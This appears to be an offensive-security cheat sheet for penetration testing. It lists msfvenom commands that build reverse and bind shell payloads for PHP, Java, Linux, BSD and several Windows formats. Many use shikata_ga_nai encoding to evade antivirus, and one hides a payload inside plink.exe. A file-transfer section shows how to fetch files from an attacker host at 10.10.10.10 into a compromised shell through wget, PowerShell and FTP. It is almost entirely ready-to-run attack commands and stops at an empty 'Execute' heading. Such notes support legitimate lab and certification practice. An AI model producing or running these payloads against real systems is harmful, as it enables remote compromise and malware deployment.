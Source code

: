 ### msfvenom payloads

- PHP reverse shell: msfvenom -p php/reverse_php LHOST=10.10.10.10 LPORT=4443 -f raw -o shell.php
- Java WAR reverse shell: msfvenom -p java/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f war -o shell.war
- Linux bind shell: msfvenom -p linux/x86/shell_bind_tcp LPORT=4443 -f c -b "\x00\x0a\x0d\x20" -e x86/shikata_ga_nai
- Linux FreeBSD reverse shell: msfvenom -p bsd/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f elf -o shell.elf
- Linux C reverse shell: msfvenom  -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f c
- Windows non staged reverse shell: msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o non_staged.exe
- Windows Staged (Meterpreter) reverse shell: msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o meterpreter.exe
- Windows Python reverse shell: msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f python -o shell.py
- Windows ASP reverse shell: msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f asp -e x86/shikata_ga_nai -o shell.asp
- Windows ASPX reverse shell: msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -o shell.aspx
- Windows JavaScript reverse shell with nops: msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f js_le -e generic/none -n 18
- Windows Powershell reverse shell: msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -i 9 -f psh -o shell.ps1
- Windows reverse shell excluding bad characters: msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f c -b "\x00\x04" -e x86/shikata_ga_nai
- Windows x64 bit reverse shell: msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -o shell.exe
- Windows reverse shell embedded into plink: msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe

## File Transfers

```
HTTP

# In Kali
python -m SimpleHTTPServer 80

# In reverse shell - Linux
wget 10.10.10.10/file

# In reverse shell - Windows
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/file.exe','C:\Users\user\Desktop\file.exe')"
```

```
FTP

# In Kali
python -m pyftpdlib -p 21 -w

# In reverse shell
echo open 10.10.10.10 > ftp.txt
echo USER anonymous >> ftp.txt
echo ftp >> ftp.txt 
echo bin >> ftp.txt
echo GET file >> ftp.txt
echo bye >> ftp.txt

# Execute
```